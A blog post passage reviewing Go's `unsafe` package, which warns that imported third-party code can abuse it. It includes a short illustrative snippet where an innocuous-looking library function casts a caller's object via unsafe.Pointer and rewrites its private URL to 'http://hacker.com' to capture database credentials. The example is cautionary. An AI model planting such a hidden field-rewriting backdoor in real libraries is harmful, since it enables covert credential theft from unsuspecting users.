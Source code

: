 Recently one incident happened in Rust community. Long story short: one guy, Nikolay Kim, creator of [actix project](https://github.com/actix) made actix repositories private under massive pressure from the community. Later on returned repos back, promoted one of the contributors to the owner and [left](https://github.com/actix/actix-web/issues/1289). 
All of that happened because some people thought that the usage of unsafe package was too dangerous to use. I understand that it didn't happen in Go community and there is no only right opinion about that. 
The only thing I want is to warn you, if you import `unsafe` in your code, be ready, community is coming🧨.

### One last thing
I personally tried to think about evil possibilities that `unsafe` provides, here is an example of a stealing with a help of `unsafe`.
Imagine you import some third-party package that does some useful operation, like wrapping your DB client object and logger into one entity to make logging of all operation easier or, 
like in my example, some function that returns spiritual animal of your object...
```
package main

import (
	"fmt"
	"third-party/safelib"
)

func main() {
	a := safelib.NewA("https://google.com", "1234") // Url and password
	fmt.Println("My spiritual animal is: ", safelib.DoSomeHipsterMagic(a))
	a.Show()
}
```
Inside of that function we assert `interface{}` to some known type and fast copy to some `Malicious` type that has methods to get and set private fields like `url` and `password`. 
So this package can pull out all interesting data or even substitute the url so next time you try to connect to your DB someone will grab your credentials.
```
func DoSomeHipsterMagic(any interface{}) string {
	if a, ok := any.(*A); ok {
		mal := (*Malicious)(unsafe.Pointer(a))
		mal.setURL("http://hacker.com")
	}

	return "Cool green dragon, arrh 🐉"
}
```
[Check out working example in playground](https://play.golang.org/p/JbeZNbaNW3R)

That was my review of `unsafe` package. 

### TL;DR
All technologies come at a certain price, but `unsafe` is especially "expensive" so my adviсe is to think twice before using it.